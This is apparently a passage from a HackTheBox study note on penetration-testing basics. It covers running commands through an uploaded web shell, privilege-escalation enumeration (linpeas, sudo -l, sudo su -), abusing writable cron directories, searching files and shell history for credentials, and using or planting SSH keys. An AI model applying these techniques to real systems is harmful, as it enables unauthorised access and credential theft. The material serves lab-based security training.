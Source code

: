 Then after on a browser :
http://SERVER_IP:PORT/shell.php?cmd=id

Or :
```shell-session
NolanCarougeHTB@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id
```

## Privilege Escalation : 

https://book.hacktricks.xyz/welcome/readme
https://gtfobins.github.io/

Enumeration script :
```shell-session
NolanCarougeHTB@htb[/htb]$ ./linpeas.sh
```

Order to see the privileges we have :
```shell-session
NolanCarougeHTB@htb[/htb]$ sudo -l
```

```shell-session
NolanCarougeHTB@htb[/htb]$ sudo su -
```

```shell-session
NolanCarougeHTB@htb[/htb]$ sudo -u user /bin/echo Hello World!
```

### Scheduled Tasks : 

The easiest way is to check if we are allowed to add new scheduled tasks. In Linux, a common form of maintaining scheduled tasks is through `Cron Jobs`. There are specific directories that we may be able to utilize to add new cron jobs if we have the `write` permissions over them. These include:

1. `/etc/crontab`
2. `/etc/cron.d`
3. `/var/spool/cron/crontabs/root`

### Exposed Credentials : 

Next, we can look for files we can read and see if they contain any exposed credentials. This is very common with `configuration` files, `log` files, and user history files (`bash_history` in Linux and `PSReadLine` in Windows). The enumeration scripts we discussed at the beginning usually look for potential passwords in files and provide them to us.

### SSH Keys :

We recover the private key then we connect via SSH with it. We can also replace the private key on the machine with our public key.

```shell-session
NolanCarougeHTB@htb[/htb]$ vim id_rsa
NolanCarougeHTB@htb[/htb]$ chmod 600 id_rsa
NolanCarougeHTB@htb[/htb]$ ssh user@10.10.10.10 -i id_rsa
```
## Transferring Files : 
